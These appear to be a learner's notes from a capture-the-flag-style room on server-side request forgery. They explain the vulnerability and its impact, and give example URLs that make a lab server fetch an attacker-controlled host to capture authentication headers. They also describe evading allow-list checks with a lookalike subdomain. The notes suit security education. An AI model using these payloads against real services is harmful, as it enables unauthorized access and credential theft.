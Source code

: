 # SSRF
### Task 1 What is an SSRF?
Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

##### Types of SSRF
There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

##### Impact
- Access to unauthorized areas
- Access to customer/organizational data
- Ability to Scale to internal networks
- Reveal authentication tokens/credentials

### Task 2 SSRF Examples
##### Expected Request
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123

![[Pasted image 20220204172253.png]]

If the attacker only has control over the path, can use directory traversal still.

http://website.thm/stock?url=/item?id=123

The attack can also control the server's subdomain to which the request is made. Take note of the payload ending in `&x=` being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter.

http://website.thm/stock?server=api&id=123

Going back to the original request, the attacker can instead force the webserver to request a server of the attacker's choice. By doing so we can capture request headers that are sent to the attacker's specified domain. These headers could contain authentication credentials or API keys sent by website.thm (that would normally authenticate to api.website.thm)

http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123

hacker requests: http://website.thm/stock?url=http://hacker-domain.thm/

### Task 3 Finding an SSRF
Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Common places to look:
- When a full URL is used in a parameter in the address bar
- A hidden field in a form
- A partial URL such as just the hostname
- Or perhaps only the path of the URL

Some of these are easier to exploit than others, and this is where a lot of trial and error comes in required to finding a working payload

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client

### Task 4 Defeating Common SSRF Defenses
More security-savvy developers are aware of the risks of SSRF vulnerabilities may implement checks in their applications to make sure the requested resource meets specific rules. There are usually two approaches to this, either a deny list or an allow list.

##### Deny List
A deny list is where all requests are accepted apart from resources specified in a list or matching a particular pattern.

##### Allow List
An allow list is where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL need in a parameter must begin with **`https://website.thm`**. An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm. The application would allow this input and let an attacker take control of the internal HTTP request.

##### Open Redirect

### Task 5 Practical SSRF

